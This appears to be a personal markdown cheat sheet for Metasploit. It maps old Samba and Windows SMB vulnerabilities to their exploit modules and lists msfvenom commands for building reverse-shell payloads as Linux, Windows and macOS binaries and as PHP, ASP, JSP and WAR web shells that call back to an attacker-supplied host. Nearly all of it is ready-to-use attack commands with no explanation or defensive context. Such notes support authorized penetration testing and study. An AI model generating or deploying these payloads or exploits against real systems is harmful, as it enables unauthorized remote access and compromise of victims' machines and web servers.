 # Metasploit
#exploit #msf #metasploit


## Post-Modules
Name | Desc
--- | ---
`local_exploit_suggester` | finds exploits in x86 envs


## Correlation
Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


## MSFVenom
Source: https://netsec.ws/?p=331
Name | Desc
--- | ---
`msfvenom -l` | show payloads


### OS
Name | Desc
--- | ---
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > shell.elf` | ELF / Linux
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe` | EXE / Windows
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f macho > shell.macho` | macho / Mac / OSX


### Web
Name | Desc
--- | ---
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.php && cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php` | PHP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f asp > shell.asp` |  ASP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.jsp` | JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f war > shell.war` | WAR